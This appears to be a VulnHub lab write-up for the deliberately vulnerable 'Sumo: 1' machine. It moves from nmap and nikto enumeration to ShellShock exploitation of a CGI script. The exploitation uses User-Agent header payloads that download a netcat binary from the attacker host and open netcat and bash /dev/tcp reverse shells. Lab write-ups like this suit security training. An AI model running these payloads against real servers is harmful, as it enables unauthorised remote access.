





# Sumo: 1

## Machine Information

- **Machine:** Sumo: 1
- **Platform:** VulnHub
- **Download:** https://www.vulnhub.com/entry/sumo-1,480/


---

# Lab Setup

1. Download the virtual machine.
2. Extract the archive.
3. Import the OVF file into VirtualBox.
4. Click **Finish**.
5. Start the virtual machine.

---

# Network Enumeration

## Discover the Target

```bash
nmap -sn 192.168.2.0/24
```


---

## Scan All Ports

```bash
nmap -v -p- 192.168.2.147
```


---

## Service Enumeration

Identify the services running on the target.

```bash
nmap -v -p 80 -sT -sV -A 192.168.2.147
```



---

## HTTP Enumeration

Enumerate web directories using the HTTP NSE script.

```bash
nmap -v -p 80 -sT -sV -A \
--script=http-enum.nse \
192.168.2.147
```

---

## Nikto Scan

Scan for common CGI directories.

```bash
nikto -C all -h http://192.168.2.147/
```

or

```bash
nikto -Cgidirs all -h 192.168.2.147
```

or

```bash
nikto -C all -h 192.168.2.147
```


The scan identifies a potential **ShellShock** vulnerability.

---

# Web Enumeration

Visit the target application.

```
http://192.168.2.147/
```



---

# ShellShock Verification

Use the HTTP ShellShock NSE script to verify command execution.

```bash
nmap -v \
-p 80 \
-sT \
-sV \
--script=http-shellshock.nse \
--script-args uri=/cgi-bin/test/test.cgi,cmd="/usr/bin/wget http://192.168.2.219" \
192.168.2.147
```


---

# Reverse Shell Preparation

Host the Netcat binary on the attacker machine using a Python HTTP server.

Download the binary onto the target.

```bash
curl \
-H "User-Agent: () { :; }; /bin/bash -c 'wget http://192.168.2.219/nc64 -O /tmp/nc64'" \
http://192.168.2.147/cgi-bin/test/test.cgi \
--proxy http://127.0.0.1:8080
```




Grant execute permission.

```bash
curl \
-H "User-Agent: () { :; }; /bin/bash -c 'chmod 777 /tmp/nc64'" \
http://192.168.2.147/cgi-bin/test/test.cgi \
--proxy http://127.0.0.1:8080
```


---

# Reverse Shell (Netcat)

Start a listener.

```bash
nc -nlvp 443
```

Execute the uploaded Netcat binary.

```bash
curl \
-H "User-Agent: () { :; }; /bin/bash -c '/tmp/nc64 -e /bin/bash 192.168.2.219 443'" \
http://192.168.2.147/cgi-bin/test/test.cgi \
--proxy http://127.0.0.1:8080
```


A reverse shell is established.

---

# Reverse Shell (Bash)

Start a listener.

```bash
nc -nlvp 443
```

Trigger a Bash reverse shell.

```bash
curl \
-A '() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/192.168.2.219/443 0>&1' \
http://192.168.2.147/cgi-bin/test/test.cgi
```





---

# Attack Flow

1. Download and import the virtual machine.
2. Discover the target IP address.
3. Enumerate open ports and services.
4. Enumerate HTTP directories and CGI scripts.
5. Identify the ShellShock vulnerability.
6. Verify remote command execution.
7. Download a Netcat binary onto the target.
8. Make the binary executable.
9. Start a Netcat listener.
10. Execute a reverse shell using Netcat or Bash.
11. Obtain remote shell access.